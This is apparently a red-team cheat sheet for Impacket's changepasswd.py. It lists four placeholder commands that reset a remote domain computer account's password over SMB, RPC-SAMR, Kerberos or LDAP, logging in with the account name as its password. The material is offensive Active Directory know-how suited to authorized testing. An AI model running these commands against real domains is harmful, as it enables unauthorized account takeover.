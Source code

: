 # changepasswd
#plateform/linux #target/remote #cat/ATTACK

## changepasswd with smb protocol (Default)
#plateform/linux #target/remote #cat/ATTACK
```
changepasswd.py <domain>/<computer_name>\$:<computer_name>@<IP_ADDRESS> -newpass Passw0rd123! 
```

## changepasswd with rpc-samr protocol
#plateform/linux #target/remote #cat/ATTACK
```
changepasswd.py <domain>/<computer_name>\$:<computer_name>@<IP_ADDRESS> -newpass Passw0rd123! -protocol rpc-samr
```

## changepasswd with kerberos protocol
#plateform/linux #target/remote #cat/ATTACK
```
changepasswd.py <domain>/<computer_name>\$:<computer_name>@<IP_ADDRESS> -newpass Passw0rd123! -protocol kpasswd
```

## changepasswd with ldap protocol
#plateform/linux #target/remote #cat/ATTACK
```
changepasswd.py <domain>/<computer_name>\$:<computer_name>@<IP_ADDRESS> -newpass Passw0rd123! -protocol ldap
```

